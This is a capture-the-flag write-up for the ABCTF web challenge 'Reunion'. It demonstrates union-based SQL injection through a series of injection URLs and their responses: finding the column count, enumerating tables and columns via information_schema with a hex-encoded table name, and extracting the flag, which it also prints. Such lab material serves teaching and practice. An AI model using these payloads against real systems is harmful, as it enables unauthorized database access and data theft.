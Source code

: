 ```yaml
---
layout: writeup
title: 'Reunion'
level:
difficulty:
points: 150
categories: [web]
tags: []
flag: abctf{uni0n_1s_4_gr34t_c0mm4nd}
---
```

**Challenge**
SQL injection challenge, great resource for union based sql injection
[here][1]

## Solution

first we find out how many columns there are by simply guessing and
seeing when we get an output:

    http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5 from information_schema.tables where table_schema=database()--+
    no results
    http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5,42 from information_schema.tables where table_schema=database()--+
    no results
    http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5,42,134 from information_schema.tables where table_schema=database()--+
    no results
    http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5,42,134,8 from information_schema.tables where table_schema=database()--+
    Name: Saranac
    Breed: Great Dane
    Color: Black
    Name: 42
    Breed: 5
    Color: 134

bingo!

next we find out the table name

    http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5,42,table_name,8 from information_schema.tables where table_schema=database()--+

    Name: Saranac
    Breed: Great Dane
    Color: Black
    Name: 42
    Breed: 5
    Color: w0w_y0u_f0und_m3
    Name: 42
    Breed: 5
    Color: webeight

so we know the table\_name is `w0w_y0u_f0und_m3`

now for the column names (we had to hex encode the table name for this
to work):

    http://yrmyzscnvh.abctf.xyz/web8/?id=2 union select 2,2,column_name,8 from information_schema.columns where table_schema=database() and table_name=0x7730775f7930755f6630756e645f6d33--+
    Name: Doodle
    Breed: Poodle
    Color: Pink
    Name: 2
    Breed: 2
    Color: f0und_m3
    '''

    So we found the column name we need. now to extract data from this column

    http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 2,4,f0und_m3,1 from w0w_y0u_f0und_m3--+
    Name: Saranac
    Breed: Great Dane
    Color: Black
    Name: 4
    Breed: 2
    Color: abctf{uni0n_1s_4_gr34t_c0mm4nd}



[1]: http://securityidiots.com/Web-Pentest/SQL-Injection/Basic-Union-Based-SQL-Injection.html
